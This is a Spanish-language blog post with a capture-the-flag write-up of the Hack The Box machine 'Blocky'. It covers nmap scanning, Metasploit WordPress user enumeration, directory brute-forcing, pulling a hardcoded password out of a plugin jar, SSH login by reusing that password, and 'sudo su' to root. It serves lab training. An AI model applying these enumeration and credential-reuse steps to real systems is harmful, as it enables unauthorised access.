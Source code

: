 ```yaml
---
layout: post
title:  "Writeup — HTB Blocky"
date:   2017-12-10 13:13:13
author: Andoni A.
categories: Writeups
tags: linux writeup seguridad ctf
cover: "/assets/hacking_header.jpg"
---
```


Buenas, aprovechando que retiraban esta máquina, **Blocky**, de [HTB](hackthebox.eu) (hasta que no los retiran no está permitido publicar writeups sobre sus retos) quería
publicar mi primer writeup.

Esta máquina era bastante sencilla, lo más dificil era no perder el tiempo siguiendo alguna
"pista falsa".

- Como casi siempre, empezamos lanzando un escaneo con NMAP, veo un FTP, SSH y un Apache:
```
PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     ProFTPD 1.3.5a
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|_  256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
80/tcp   open   http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
| http-methods:
|_  Supported Methods: GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp closed sophos
```
  - El Apache aloja a simple vista un WordPress, parece simular ser la web de un
   server de Minecraft.


- Con un módulo de enumeración de usuariosde WP descubrimos el usuario 'notch':
```
msf auxiliary(wordpress_login_enum) > run -j
[*] Auxiliary module running as background job 7.
[*] / - WordPress Version 4.8 detected
[*] 10.10.10.37:80 - / - WordPress User-Enumeration - Running User Enumeration
[+] / - Found user 'notch' with id 1
[+] / - Usernames stored in: /root/.msf4/loot/20171206134659_default_10.10.10.37_wordpress.users_138712.txt
```

  - Pruebo un par de contraseñas a mano pero nada...


- Para ver que más puede contener la web uso [dirb](https://tools.kali.org/web-applications/dirb) y descubro algunas urls
interesantes como:
  - http://10.10.10.37/phpmyadmin
    - Probamos el usuario notch con varias claves, nada...
  - http://10.10.10.37/plugins/
    - Contiene un par de .jar que descargo para ver si tienen algo interesante.


- Empiezo por 'BlockyCore.jar' ya que parece más "custom" que 'griefprevention-1.11.2-3.1.1.298.jar' y puede que tenga algún fallo:
  ```
  venom :: Machines/Blocky/BlockyCore_jar » strings com/myfirstplugin/BlockyCore.class
  com/myfirstplugin/BlockyCore
  java/lang/Object
  sqlHost
  Ljava/lang/String;
  sqlUser
  sqlPass
  <init>
  Code
          localhost
  root
  8YsqfCTnvxAUeduzjNSXe22
  LineNumberTable
  LocalVariableTable
  this
  Lcom/myfirstplugin/BlockyCore;
  onServerStart
  onServerStop
  onPlayerJoin
  TODO get username
  !Welcome to the BlockyCraft!!!!!!!
  sendMessage
  '(Ljava/lang/String;Ljava/lang/String;)V
  username
  message
  SourceFile
  BlockyCore.java
  ```

- Veo lo que parece un user/pass:
  ```
  root
  8YsqfCTnvxAUeduzjNSXe22
  ```

- Probamos en el login de WP pero no funciona, pruebo por SSH:
  ```
    venom :: Machines/Blocky » ssh root@10.10.10.37
    root@10.10.10.37's password:

    venom :: Machines/Blocky » ssh notch@10.10.10.37        
    notch@10.10.10.37's password:
    Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage

    7 packages can be updated.
    7 updates are security updates.

    Last login: Fri Dec  8 02:16:15 2017 from 10.10.14.79
    notch@Blocky:~$
  ```
    - En el home de notch tenemos la **flag** del user.


- Y después con un simple 'sudo su' accedo al usuario 'root' y obtengo la flag.

Como he dicho, esta máquina era bastante sencilla aunque me costó un buen rato encontrar algo dentro de los .jar...

Espero poder sacar un rato y subir alguno de los retos que me parecieron
interesantes del CTF de la HoneyCON17.

*~ Saludos y que la fuerza os acompañe!*
